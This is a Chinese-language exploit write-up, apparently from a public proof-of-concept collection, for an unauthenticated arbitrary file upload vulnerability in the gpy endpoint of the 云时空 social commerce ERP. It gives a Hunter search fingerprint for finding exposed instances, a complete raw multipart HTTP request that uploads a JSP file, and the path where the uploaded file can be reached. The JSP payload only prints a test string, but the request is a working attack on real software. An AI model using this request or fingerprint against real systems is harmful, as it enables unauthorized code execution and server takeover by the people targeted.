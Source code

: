 # 云时空社会化商业ERP系统gpy任意文件上传漏洞

# 一、漏洞简介
云时空社会化商业ERP以大型集团供应链系统为支撑，是基于互联网技术的多渠道模式营销服务管理体系，可以帮助您整合线上和线下交易模式，覆盖企业经营管理应用各个方面。云时空社会化商业ERP系统gpy接口存在任意文件上传漏洞，未经身份认证的攻击者可通过该漏洞在服务器端上传jsp文件获取服务器权限。

# <font style="color:rgb(44, 62, 80);">二、影响版本</font>
+ 云时空社会化商业ERP

# 三、资产测绘
+ hunter`web.body="/static/plugin/lhgdialog/skins/default.css"`
+ 特征

![1702439672374-9b6516a4-c8a6-42cb-bf3b-f8a1c131cfac.png](./img/xZS8jyBZUVBke0PW/1702439672374-9b6516a4-c8a6-42cb-bf3b-f8a1c131cfac-190091.png)

# 四、漏洞复现
```plain
POST /servlet/fileupload/gpy HTTP/1.1
Host: {hostname}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=4eea98d02AEa93f60ea08dE3C18A1388
Content-Length: 221

--4eea98d02AEa93f60ea08dE3C18A1388
Content-Disposition: form-data; name="file1"; filename="stc.jsp"
Content-Type: application/octet-stream

<% out.println("123"); %>
--4eea98d02AEa93f60ea08dE3C18A1388--
```

![1702439757315-188d99c7-9bec-4457-8fbd-56f8f6b42b23.png](./img/xZS8jyBZUVBke0PW/1702439757315-188d99c7-9bec-4457-8fbd-56f8f6b42b23-779513.png)

上传文件位置

2023-12-13，为响应时间

```plain
/uploads/pics/2023-12-13/stc.jsp
```

![1702439815849-f9b8b51c-ae4f-4253-82f5-779b0146cb6d.png](./img/xZS8jyBZUVBke0PW/1702439815849-f9b8b51c-ae4f-4253-82f5-779b0146cb6d-890051.png)



> 更新: 2024-02-29 23:55:43  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gisby3trr2tide3u>